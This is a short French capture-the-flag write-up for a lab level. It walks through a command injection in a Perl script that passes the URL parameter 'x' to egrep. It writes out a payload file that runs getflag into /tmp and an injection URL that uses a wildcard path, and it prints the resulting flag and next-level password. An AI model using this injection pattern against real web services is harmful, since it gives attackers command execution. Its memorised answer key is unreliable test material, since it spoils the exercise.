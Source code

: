 # Pré requis

aucun

## GET Flag

A la racine se trouve un fichier level12.pl.
Dans ce fichier se trouve le code execute par flag12 via le port 4646 le parametre "x" est transmissible par les arguments de l'url et sera execute par le systeme via la commande egrep.
Il est donc possible d'injecter du code comme l'execution d'un script prepare avec les droits de flag05.

```
echo 'echo "$(getflag)" > /tmp/res12' > /tmp/EXPLOIT12
```

on peut ensuite lancer le code en se connectant via un navigateur avec l'ip suivi de:`:4646/?x=$(/*/EXPLOIT12)`


le resultat de la commande getflag sera ecrite dans le fichier `/tmp/res12`.

Qui nous donne : `g1qKMiRpXf53AWhDaU7FEkczr`
# Flag

On obtient le flag:
`g1qKMiRpXf53AWhDaU7FEkczr`
On peut se connecter sur le `level13`

```
level13
g1qKMiRpXf53AWhDaU7FEkczr
```
